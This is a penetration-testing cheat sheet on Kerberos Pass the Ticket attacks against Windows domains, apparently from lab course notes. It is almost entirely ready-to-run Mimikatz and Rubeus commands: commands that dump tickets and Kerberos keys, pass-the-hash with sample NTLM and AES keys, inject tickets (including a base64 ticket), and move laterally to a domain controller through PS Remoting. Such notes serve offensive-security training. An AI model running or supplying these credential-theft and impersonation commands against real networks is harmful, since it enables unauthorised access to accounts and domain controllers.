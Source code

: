 # Pass the Ticket Windows

***

https://github.com/GhostPack/Rubeus

## Kerberos

* The `TGT - Ticket Granting Ticket` is the first ticket obtained on a Kerberos system. The TGT permits the client to obtain additional Kerberos tickets or `TGS`.
* The `TGS - Ticket Granting Service` is requested by users who want to use a service. These tickets allow services to verify the user's identity.

### Harvesting Kerbertos Tickets

#### Mimikatz

```cmd-session
privilege::debug
sekurlsa::tickets /export
```

&#x20;`[randomvalue]-username@service-domain.local.kirbi`

#### Export Tickets - Rubeus

```cmd
Rubeus.exe dump /nowrap
```

### Pass the Key or OverPass the Hash

#### Extract Kerberos Keys - Mimikatz

```cmd
privilege::debug
sekurlsa::ekeys
```

#### Mimikatz

```cmd-session
privilege::debug
sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```

#### Rubeus

```cmd-session
c:\tools> Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```

## Pass the Ticket

```cmd-session
c:\tools> Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```

```cmd-session
c:\tools> Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```

### Convert .kirbi to Base64 Format

```powershell-session
PS c:\tools> [Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```

```cmd-session
c:\tools> Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>
```

### Mimikatz

```cmd-session
privilege::debug
kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```

## Pass The Ticket with PS Remoting

```cmd-session
mimikatz # kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
```

```cmd-session
c:\tools>powershell
```

```cmd-session
PS C:\tools> Enter-PSSession -ComputerName DC01
```

### Rubeus

```cmd-session
C:\tools> Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```

```cmd-session
C:\tools> Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
```

```powershell
powershell
Enter-PSSession -ComputerName DC01
```
